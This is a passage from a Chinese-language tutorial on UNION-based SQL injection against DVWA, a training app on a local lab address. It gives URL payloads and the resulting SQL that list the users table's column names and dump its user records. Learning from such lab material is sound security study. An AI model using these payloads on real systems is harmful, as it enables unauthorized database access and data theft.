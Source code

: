 ![](SQL联合查询注入/photo/4.jpg)

### 获取数据库中某个表的字段

方法同获取表名一样，例子如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(column_name)%20from%20Information_schema.columns%20where%20table_schema=%27dvwa%27%20and%20table_name=%27users%27%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(column_name) from Information_schema.columns where table_schema='dvwa' and table_name='users'#';
```

![](SQL联合查询注入/photo/5.jpg)

### 获取数据库中某个表中的记录

方法同获取表名一样，例子如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(user)%20from%20dvwa.users%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(user) from dvwa.users#';
```
